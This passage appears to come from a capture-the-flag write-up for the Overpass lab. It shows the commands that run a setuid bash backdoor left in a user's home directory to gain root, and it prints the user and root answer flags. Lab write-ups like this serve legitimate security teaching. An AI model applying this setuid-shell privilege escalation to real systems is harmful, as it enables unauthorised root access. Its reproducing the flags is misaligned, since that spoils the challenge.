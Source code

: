 User flag: `thm{d119b4fa8c497ddb0525f7ad200e6567}`

## 3.4 - What's the root flag?

Now we need to go root. Fortunately the attacker left a quick way to go root. If you list all the files in james's home directory, there is a file called `.suid_bash` which can easily provide us the root access. Just run it with `-p` flag and you're root!

~~~
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
~~~

Now just navigate to `/root` directory and read the root flag:

~~~
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
~~~

Root flag: `thm{d53b2684f169360bb9606c333873144d}`

# D0N3!  ; )

Thanks to the creators!

Hope you had fun like I did!

An have a good one! : )
